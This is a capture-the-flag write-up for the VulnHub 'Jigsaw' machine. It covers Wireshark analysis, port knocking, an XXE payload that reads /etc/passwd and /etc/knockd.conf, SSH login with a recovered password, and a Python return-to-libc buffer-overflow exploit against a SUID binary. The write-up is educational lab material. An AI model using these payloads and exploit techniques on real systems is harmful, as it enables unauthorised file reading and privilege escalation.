<h1 align="center">
  <br>
  <a href="https://www.vulnhub.com/entry/jigsaw-1,310/">Jigsaw</a>
  <br>
</h1>

### Machine setup

I downloaded the VM and imported in Oracle's VirtualBox but when I tried to start the machine I got the following error

```
Could not start the machine jigsaw because the following physical network interfaces were not found:

Realtek 8812AU Wireless LAN 802.11ac USB NIC (adapter 1)

You can either change the machine's network settings or stop the machine.
```

So I changed the `USB` setting from `2.0` to `1.1` and that fixed the issue.

Thanks to __@paradox__ for helping me in fixing that issue.

***

## Flag 1

### Nmap

I started with a basic nmap scan i.e `nmap -sV -A Machine-IP` but that gave out nothing.



So I decided to use the `-Pn` to skip the ping part since I was sure the host was up and running. But again that scan yield out nothing.

Then [@Robin](https://github.com/D4mianWayne/) said that we have to use wireshark while running the nmap scan and that will possibly yield something.

__This step is very similar to the intial step of another VulnHub machine named [Wall](https://www.vulnhub.com/entry/the-wall-1,130/)__

So I started the nmap scan i.e `nmap -sV -Pn Machine-IP` and then started capturing those packets. After the scan was completed I analyzed the PCAP and found something interesting in one of the UDP packets.



If we follow that UDP stream we get



Okay so there's some data on the UDP port `666`(as that udp request was on port 666).

__@Robin__ said that if we run `echo "j19s4w" | nc -u IP 666` we get some data and by some data he meant the very first flag.



Let's decode that base64 and see what we get
```bash
➜ echo "ZmxhZzF7MzAzNGNjMjkyN2I1OWUwYjIwNjk2MjQxZjE0ZDU3M2V9CllvdSBjb21wbGV0ZWQgeW91ciBmaXJzdCB0ZXN0LiBOb3cga25vY2sgdGhlc2UgbnVtYmVycyB0byBmaW5kIHdoYXQgeW91IHNlZWsuIDU1MDAgNjYwMCA3NzAw" |base64 -d
flag1{3034cc2927b59e0b20696241f14d573e}
You completed your first test. Now knock these numbers to find what you seek. 5500 6600 7700
```
🎉 We have the first flag.

***

## Flag 2

Now let's just do what it says in the message, knock those port and see what we get.

There are lot of good tools out there for port knocking like knockd etc use which ever tool you prefer.

I used guelfoweb's [knock](https://github.com/guelfoweb/knock):

```bash
➜ knock 192.168.43.214 5500 6600 7700
```

After running the knock on the given ports I got nothing. There wa no output but again __@Robin__ the saviour said that we are supposed to run nmap after that and then we'll see some open ports.



He was right, now we can see port `80` as an open port running `apache` server.

***
__Thoughts__

I was very confused at first because I didn't knew how exactly that(port knocking) works. But after reading the [Wikipedia page for port knocking](https://en.wikipedia.org/wiki/Port_knocking) I understood the whole thing.

Those ports are `firewall` ports and if we knock them in certain order then the firewall rules changes dynamically allowing us to see all the ports that are open on the host.

***

If we visit the website, We can see an image of jigsaw. Looking at the source of the website we find a comment



Also that's not an image but a gif.

I tried running `dirsearch` but it didn't found anything. After some thinking I realized that it's actually a CTF type machine so I proceded with CTF mentality. I downloaded the `gif` file and ran `strings` command on it and there it was, a page that we are supposed to visit on that website.



Visiting the URL (http://IP/w4n770p14y494m3/) we are provided with a login form and no matter what username we provide it says `username does not exists`



If we go through the source of the page we can see that there's an XML function that's doing all the work for the page. This could mean we need to do XXE on this to read some files. Since we don't have any predefined path we'll be looking out for general paths like `/etc/passwd` etc.

This is what the normal request on that form looked like



So it's sending the following data:

```xml
<?xml version="1.0" encoding="UTF-8"?><root><email>mzfr</email><password>123</password></root>
```

We can change it to :

```xml
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [ <!ELEMENT foo ANY > <!ENTITY xxe SYSTEM "file:///etc/passwd" >]><root><email>&xxe;</email><password></password></root>
```

This will give us the content of the `/etc/passwd`



Okay so no the thing is we should try to read some other file.

***

__Thoughts__

Looking back at everything we did the one thing that would stand out in context of having file is knocking port. Why? Well because we knocked a certain sequence of ports to open a port `80` how would the system know which sequence is the right one that means it must be written somewhere. A bit of googling about port knocking and I found out that sequences are defined in `/etc/knockd.conf`, let's see if we can read that.

***


🎉

We can see sequence for opening the SSH ports i.e `7011,8011,9011`. Let's knock them off

```bash
➜ knock 192.168.43.214 7011 8011 9011
```

and after running the above command I ran nmap to check if it worked and obviously it did 😏



Now we can login and to `jigsaw` account. But wait we still need a password for the `jigsaw's` SSH account. Naah we already have that 😏

Remember the message we received in the wireshark UDP packet


That means `j19s4w` is the password. Login with that account and there's a file named `y0ud1dw3118u7175n070v32.txt` , cat that and you'll have it.



***

## Flag 3

Finally we are in the system let's use some enumeration script and see what we can find about the machine.

***

__Preference__

I kinda prefer [jalesc](https://github.com/itsKindred/jalesc/blob/master/jalesc.sh) instead of [LinEnum](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh), both does the same thing but `jalesc` gives a bit colorfull output. 😄

***

I went through the output and found a SUID named `game3`. So this damn thing has to be related to RE or PWN 😢

I transfered the file from the machine to my system using `SFTP`.

I tried to feed it with big junk data and I got `SIGEGV`, seems like BoF.



I am not good in PWN at all so I decided to message [@DCAU7](https://twitter.com/DCAU7) to get some help and he provided gave me a [link](https://spz.io/2018/10/18/buffer-overflow-return-to-libc/) to post about `Return To Libc Buffer overflow`

***

__Credit__

According to him __@DCAU7__, [@4ndr34z](https://twitter.com/4nqr34z) was the one who originally found this post so thanks to him too 😄

***

Okay back to work, I followed the article(from the server section) and was able to write my own exploit for `return to libc BoF`

```python
from subprocess import call
import struct

libc_addr = 0xb752e000
sys_addr = struct.pack("<I", libc_addr+0x00040310)
arg_addr = struct.pack("<I", libc_addr+0x00162d4c)
exit_addr = struct.pack("<I", libc_addr+0x00033260)

buf = "A"*76
buf += sys_addr
buf += exit_addr
buf += arg_addr

i = 0
while(i<512):
    print("Try: %s" % (i))
    print(buf)
    i += 1
    ret = call(["/bin/game3", buf])
```
__NOTE__: Don't copy paste my script, all those address will be different in your scenario.

Now run the script(`python exp.py`) and 💥




***

I loved this machine for number of reasons:

1) I got to learn that wireshark method for initial foot hold,To be honest I don't even know what that method is called but I didn't knew things could work that way.

2) I did my very first BoF, even though it's kinda like copying from the website but hey I learned how to do it so I think that would count.

Also I came  to know about this machine via [TryHackMe](https://tryhackme.com/room/jigsaw). It's an awesome website if you want to start in with CyberSecurity. Make sure to check it out.

***

### Thanks to

* [@zayotic](https://twitter.com/zayotic) for creating an awesome machine,
* [@DCAU7](https://twitter.com/DCAU7) for helping out with BoF and
* [@Robin](https://github.com/D4mianWayne/) for great teamwork!
